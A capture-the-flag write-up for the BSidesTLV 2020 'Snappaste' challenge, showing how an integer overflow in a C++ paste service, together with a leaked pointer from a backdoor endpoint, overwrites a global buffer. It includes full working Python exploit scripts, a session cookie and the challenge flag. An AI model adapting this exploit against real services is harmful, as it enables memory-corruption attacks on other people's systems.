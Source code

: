 # Snappaste (Part 1) Writeup

We felt like there were not enough pasting services, so we created Snappaste! For better privacy, each pasted text can only be accessed once. We care about performance, and therefore we developed Snappaste in C++. We hope that we didn't introduce any security bugs :)

URL: https://snappaste.ctf.bsidestlv.com/

To compile, Use the following commands:

gcc -c -std=c99 zlib/*.c  
g++ -c -std=c++14 snappaste.cc   
g++ -o snappaste *.o -pthread  

By Michael Maltsev

## Solution

First thing we did was observing the packets in packet capture software (for example Fiddler) and build a script to create valid packets.

**Python script to reproduce a paste request:**

```python
import requests
import struct
import zlib

url = 'https://snappaste.ctf.bsidestlv.com/'
paste_url = url + 'paste'
view_url = url + 'view/'
backdoor_url = url + 'backdoor/'

metadata = b'{"name": "alex","date":"2020-06-28T15:52:21.519Z"}'
data_decompressed = 'this is my data'
data_compressed = zlib.compress(data_decompressed)
metadata_size = len(metadata)
data_compressed_size = len(data_compressed)
data_decompressed_size = len(data_decompressed)

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
```

We created a local environment by compiling the C++ code for easier testing procedure.

Tried to find vulnerability in C++ code. Even when sizes were tampered the program worked correctly because the allocation was made according to the size given.

Our final goal is to get into the next `if` statement:

```python
// TODO: remove after testing
		if (name == backdoor_filename) {
			std::cout << "printing flag" << std::endl;
			content += readfile("./flag");
		}
```

Because C++ is doing that specific compare by value (and not by reference), we need to overwrite the buffer: 

```python
// TODO: remove after testing
char backdoor_filename[17];
```

We can leak its address using the `/backdoor` API, so we only need Write-What-Where primitive, and overwrite it with our random generated file name.

We can spot an Integer Overflow vulnerability in the next line:

```python
dword num_bytes = header->metadata_size + header->data_decompressed_size + sizeof(PASTE_RECEIVED);
```

After trying many combinations, the next one worked for us:

- First we are doing a regular paste.
- We are leaking the `backdoor_filename` address using `/backdoor` API.
- Creating a new paste with the next parameters:
    - `metadata = <previous_name>`
    - `metadata_size = 16`
    - `data_decompressed = <leaked_backdoor_pointer>`
    - `data_compressed_size  = len(zlib(data_decompressed))`
    - `data_decompressed_size = 0xFFFFFFF8`
- This creates allocation of size 48.
- So line: `int result = uncompress(paste_received->data, &dest_len, data, header->data_compressed_size);` will overwrite the `paste_received->metadata` pointer with `backdoor_filename` address.
- And finally, line `memcpy(paste_received->metadata, metadata, header->metadata_size);` will overwrite the global variable with our random name.
- Flag: `BSidesTLV2020{$0metimes-jUst-4dding-tw0-nuMber$-g3ts-y0u-iN-tr0ub13s}`
Full exploit source code:

```python
import requests
import struct
import zlib

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# url = 'http://127.0.0.1:8080/'
url = 'https://snappaste.ctf.bsidestlv.com/'
paste_url = url + 'paste'
view_url = url + 'view/'
backdoor_url = url + 'backdoor/'

# NORMAL PASTE REQUEST
metadata = b'{"name": "alex","date":"2020-06-28T15:52:21.519Z"}'
data_decompressed = b'this is normal'
data_compressed = zlib.compress(data_decompressed)
metadata_size = len(metadata)
data_compressed_size = len(data_compressed)
data_decompressed_size = len(data_decompressed)

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
random_name = r.content
print(f'Pasted with random name: {random_name}')

# BACKDOOR REQUEST
r = requests.get(f'{backdoor_url}{r.content.decode("ascii")}', data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
leaked_ptr = int(r.content.split(b' ')[1], 16)
print(f'Leaked ptr: {hex(leaked_ptr)}')

# VULNERABLE PASTE REQUEST
metadata = random_name
data_decompressed = struct.pack('<Q', leaked_ptr)
data_compressed = zlib.compress(data_decompressed)
metadata_size = len(metadata)
data_compressed_size = len(data_compressed)
data_decompressed_size = 0xFFFFFFF8

paste_data = b''
paste_data += struct.pack('<I', metadata_size)
paste_data += struct.pack('<I', data_compressed_size)
paste_data += struct.pack('<I', data_decompressed_size)
paste_data += metadata
paste_data += data_compressed

r = requests.post(paste_url, data = paste_data, verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
print(f'Made vulnerable paste. Next one is viewing flag.')

r = requests.get(view_url + random_name.decode('ascii'), verify = False, headers = { 'Cookie': 'BSidesTLV=af6e736a35c13bfbe3f81d76e271a1aa52c3e937'})
print(r.content)
```

